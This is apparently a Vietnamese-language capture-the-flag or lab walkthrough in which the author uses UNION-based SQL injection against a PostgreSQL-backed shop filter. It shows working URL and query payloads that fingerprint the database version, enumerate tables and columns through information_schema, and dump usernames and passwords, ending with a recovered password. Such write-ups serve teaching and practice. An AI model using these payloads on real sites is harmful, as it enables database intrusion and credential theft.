

Helu chào mừng trở lại mình là l3mh0cr3d

Nội dung của bài lab lần này sẽ là liệt kê mật khẩu mà khác chỗ là nó không phải oracle nha :))
 sau một hồi mò mẫm thì mình phát hiện ra nó là potgres mà mình vẫn hay nghịch 
                                        filter?category=Tech+gifts%27%20UNION%20SELECT%20NULL,version()--

         câu truy vấn này sẽ là :
                                        SELECT name, title FROM items WHERE categories = 'Tech+gifts' UNION SELECT NULL, version() -- 

như này vậy là bắt tay vào dí thôi đầu tiên thì mình sẽ tìm tên của bảng trước
 
Woa nó đây rồi @@

Mình nhận được kết quả như này và tìm được tên liên quan đến user là 
có vẻ khả nghi nên mình thử     
                                        ' UNION SELECT column_name,NULL FROM information_schema.columns WHERE table_name='ps_user'--

 có vẻ như đã đi đúng hướng rồi
                                        ' UNION SELECT usename,passwd FROM ps_user -- WHERE table_name='ps_user'--

                                        filter?category=Tech+gifts%27%20UNION%20SELECT%20password_ycwcxx,username_npqknh%20FROM%20users_ybssen--
                                        sau một thời gian mò mẫm thì bạn có lệnh như trên lúc này sẽ trả ra

password là 4dfsex1vfnz5itx4q7cr @@@
Authors: l3mh0cr3d chúc các bạn thành công